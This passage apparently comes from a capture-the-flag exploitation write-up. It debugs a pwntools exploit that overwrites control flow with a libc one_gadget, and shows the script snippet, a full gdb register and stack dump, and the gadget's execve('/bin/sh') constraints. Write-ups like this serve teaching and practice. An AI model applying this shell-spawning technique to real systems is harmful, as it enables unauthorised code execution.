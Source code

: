 ## Triage
We'll modify the code a little bit to stop at the one_gadget:
```python
oneg = context.libc.select_gadget(1)
gdb.attach(r, gdbscript='b *'+hex(oneg)+'\nc')
r.sendafter('Any last message?:', pack(oneg))
```
`gdb` is enlightening:
```c
$rax   : 0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
$rbx   : 0x00007f98a3f273a0  →  0x8d4c5741fa1e0ff3
$rcx   : 0x00007f98a3e42fb2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x2f
$rsp   : 0x00007ffe510e5638  →  0x00007f98a3f27376  →  0x4d8b4800000000b8
$rbp   : 0x00007ffe510e5660  →  0x0000000000000000
$rsi   : 0x00007f98a3f27376  →  0x4d8b4800000000b8
$rdi   : 0x00007f98a3f20b28  →  0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
$rip   : 0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
$r8    : 0x00007f98a3f20b28  →  0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
$r9    : 0x00007f98a3d39548  →  0x0000000000000000
$r10   : 0x00007f98a3f1dbe0  →  0x0000555555ab55a0  →  0x0000000000000000
$r11   : 0x246
$r12   : 0x00007f98a3f27150  →  0x8949ed31fa1e0ff3
$r13   : 0x00007ffe510e5748  →  0x000000000000001c
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffe510e5638│+0x0000: 0x00007f98a3f27376  →  0x4d8b4800000000b8    ← $rsp
0x00007ffe510e5640│+0x0008: 0x00007f98a3f25530  →  0x0000555555ab52a0  →  0x0000000000000000
0x00007ffe510e5648│+0x0010: 0x0000555555ab52a0  →  0x0000000000000000
0x00007ffe510e5650│+0x0018: 0x00007f98a3f20b28  →  0x00007f98a3e18ce6  →  <execvpe+1142> mov rsi, r10
0x00007ffe510e5658│+0x0020: 0x0caf9f8a935f0f00
0x00007ffe510e5660│+0x0028: 0x0000000000000000   ← $rbp
0x00007ffe510e5668│+0x0030: 0x00007f98a3d590b3  →  <__libc_start_main+243> mov edi, eax
0x00007ffe510e5670│+0x0038: 0x0000000000000000
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f98a3e18cd8 <execvpe+1128>   add    DWORD PTR [rbp+0x52], esi
   0x7f98a3e18cdb <execvpe+1131>   mov    QWORD PTR [r10+0x10], 0x0
   0x7f98a3e18ce3 <execvpe+1139>   mov    rdx, r12
 → 0x7f98a3e18ce6 <execvpe+1142>   mov    rsi, r10
   0x7f98a3e18ce9 <execvpe+1145>   lea    rdi, [rip+0xd08ba]        # 0x7f98a3ee95aa
   0x7f98a3e18cf0 <execvpe+1152>   mov    QWORD PTR [rbp-0x78], r11
   0x7f98a3e18cf4 <execvpe+1156>   call   0x7f98a3e18160 <execve>
   0x7f98a3e18cf9 <execvpe+1161>   mov    r11, QWORD PTR [rbp-0x78]
   0x7f98a3e18cfd <execvpe+1165>   mov    eax, DWORD PTR fs:[r14]
───────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ld-linux-x86-64", stopped 0x7f98a3e18ce6 in execvpe (), reason: BREAKPOINT
```
The one_gadget requirements here probably failed. These are the three<sup>4</sup> gadgets available:
```python
0xe6ce3 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

```